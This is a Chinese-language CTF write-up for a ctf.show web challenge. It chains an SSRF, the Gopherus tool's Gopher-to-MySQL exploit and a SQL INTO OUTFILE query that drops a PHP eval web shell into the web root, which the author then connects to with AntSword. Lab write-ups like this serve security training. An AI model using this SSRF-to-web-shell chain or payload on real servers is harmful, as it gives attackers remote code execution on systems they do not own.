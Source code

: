 ```yaml
---
title: "WEB红包题第九弹  @WEB"
date: 2023-11-07
draft: false
author: "Goby"
tags: ["web","ctf.show"]
---
```


 首先看到的是一个登录框，登录一下，发现一个疑似[SSRF](https://so.csdn.net/so/search?q=SSRF&spm=1001.2101.3001.7020)的地方。使用百度进行测试，确认是ssrf

![](/ctf.show/248/1.webp)

这里是php可以直接使用Gopher协议+mysql写文件，题目给了提示3306

这里的[poc](https://so.csdn.net/so/search?q=poc&spm=1001.2101.3001.7020)使用工具：https://github.com/tarunkant/Gopherus

Gopher 协议可以做很多事情，特别是在 SSRF 中可以发挥很多重要的作用。利用此协议可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET、POST 请求。这无疑极大拓宽了 SSRF 的攻击面。

进入脚本，执行：python gopherus.py --exploit mysql

Give MySQL username：root

Give query to execute：

```php
select '<?php eval($_POST[hack]); ?>' INTO OUTFILE '/var/www/html/test.php';
```

![](/ctf.show/248/2.webp)

生成之后URL编码，然后POST传入。

![](/ctf.show/248/3.webp)

蚁剑连接，连接是靶机链接/test.php，密码是hack，在/目录下找到flag。

![](/ctf.show/248/4.webp)